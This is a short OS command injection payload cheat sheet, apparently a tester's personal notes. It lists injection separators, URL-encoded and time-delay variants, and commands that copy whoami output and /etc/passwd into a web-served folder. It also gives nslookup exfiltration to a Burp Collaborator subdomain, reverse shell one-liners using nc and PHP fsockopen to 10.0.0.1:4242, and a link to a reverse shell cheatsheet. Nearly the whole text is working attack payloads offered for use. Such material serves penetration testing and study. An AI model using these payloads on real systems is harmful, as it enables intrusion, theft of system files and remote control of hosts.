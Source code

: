 ///// OS COMMAND INJECTION SYNTAX "" & your command # "" / "" || your commans || ""

& whoami # ///// URLencoded ==> %26+sleep+10+%23
||+whoami+||

TIME Delay ==>
||ping+-c+10+127.0.0.1||
& sleep 10 #

Storing file to view
||whoami>/var/www/images/output.txt||
||cat /etc/passwd >/var/www/images/output.txt||


/// COLLABORATOR server
||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
|nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||


/// reverse shell 

||nc 10.0.0.1 4242 -e /bin/bash||
||php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'||

PAYLOADS LINK: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md